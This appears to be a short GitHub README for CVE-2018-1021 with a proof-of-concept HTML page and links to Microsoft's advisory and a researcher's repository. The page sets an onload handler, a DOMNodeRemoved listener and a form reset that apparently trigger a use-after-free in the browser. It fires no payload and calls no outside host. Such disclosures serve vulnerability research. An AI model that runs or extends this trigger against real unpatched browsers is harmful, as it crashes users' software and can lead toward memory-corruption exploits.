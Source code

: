 # CVE-2018-1021

## PoC

```html
<script>
function probForUaf() {

    var d = JunkJunk.defaultValue;
    JunkJunk.addEventListener("DOMNodeRemoved",doReset,false);
    doReset();
}

function doReset() {

    Reset.reset();
    var dd = JunkJunk.defaultValue;
    
}
</script>
</head>
<body onload=probForUaf()>
<col id="Junk">
<form id="Reset">
<output id="JunkJunk">
<time id="whatsTheTime?">
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2018-1021)
- [Github](https://github.com/akayn/Bugs/tree/master/ZDI-CAN-5622)
